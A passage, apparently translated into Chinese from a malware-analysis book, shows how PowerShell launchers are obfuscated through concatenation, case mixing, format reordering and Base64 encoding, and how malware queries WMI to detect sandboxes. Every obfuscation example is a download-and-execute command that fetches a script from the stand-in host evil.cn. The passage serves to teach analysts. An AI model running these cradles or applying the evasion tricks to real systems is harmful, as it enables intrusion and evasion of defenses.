这些 PowerShell 启动器的问题在于它们很容易被识别为可疑的，因此我们来看看 PowerShell 命令如何被混淆，以绕过端点防御并阻碍调查。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">混淆 PowerShell</samp>

PowerShell 对语法的容忍度非常高，这意味着威胁行为者有很多空间来混淆命令、重新排列命令中的字符，甚至插入不必要的字符来混淆分析人员和检测工具。正如你将看到的，恶意软件作者有一些常见的方式来混淆 PowerShell 执行。让我们以这个命令作为起点：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('http://www.evil.cn/bad.ps1')"
```

一种简单的混淆方法是将 <samp class="SANS_TheSansMonoCd_W5Regular_11">+</samp> 字符插入到命令中，如下所示：

```
C:\> powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient)
.DownloadString('ht' + 'tp://'+'www.ev’+’il.cn/b’+’ad.ps1')"
```

字符可以是大写或小写，因此以下命令仍然是有效的 PowerShell 命令：

```
C:\> powershell.exe - EXeC bYpaSS -C "Iex(New-OBJect NeT.webclient)
.dOwNLOadStrINg('ht' + 'tp://'+'www.ev’+’il.cn/b’+’ad.ps1')"
```

然而，这样的话就有点难以阅读了。

字符也可以重新排序，如下所示：

```
"{2}{1}{0}" -f 'X','E','I'
```

括号中的数字表示字符 <samp class="SANS_TheSansMonoCd_W5Regular_11">X</samp>、<samp class="SANS_TheSansMonoCd_W5Regular_11">E</samp> 和 <samp class="SANS_TheSansMonoCd_W5Regular_11">I</samp> 在重新排序后的位置，因此这些字符本质上构成了 <samp class="SANS_TheSansMonoCd_W5Regular_11">IEX</samp>。

最后，PowerShell 允许 Base64 编码的数据，因此完全有可能发出像这样的编码命令：

```
C:\> powershell.exe -EncodedCommand "cG93ZXJzaGVsbC5leGUg4oCTIGV4ZWMgYnlwYXNzIOKAk0Mg4oCcSUVYKE
5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmco4oCZaHR0cDovL3d3dy5ldmlsLmNuL2JhZC5wczHig
Jkp4oCd"
```

我们将在第十六章中讨论 Base64 编码。目前，我们将转向恶意软件可以利用的与 PowerShell 相关的最后一个功能。

##### <samp class="SANS_Futura_Std_Bold_Condensed_B_11">查询 WMI</samp>

正如你从前几章中可能记得的那样，*Windows 管理工具 (WMI)* 允许系统管理员在 Windows 中管理数据和自动化操作。在 Windows 7 及更早版本中，*Windows 管理工具控制台 (WMIC)* 被用来调用 WMI，但在现代版本中，这已经被弃用。现在更常见的做法是使用 PowerShell 来调用 WMI，它具有几个内置的组件 cmdlet 用于与 WMI 交互。一个例子是 <samp class="SANS_TheSansMonoCd_W5Regular_11">Get-CimInstance</samp>，这是一个恶意软件也可以用来查询 WMI 对象的 cmdlet。为了收集系统信息，例如它是否是虚拟机或沙盒，恶意软件可以直接从 PowerShell 执行以下命令：

```
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_Processor"
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_BIOS"
PS C:\> Get-CimInstance -Query "SELECT * FROM Win32_DiskDrive"
```

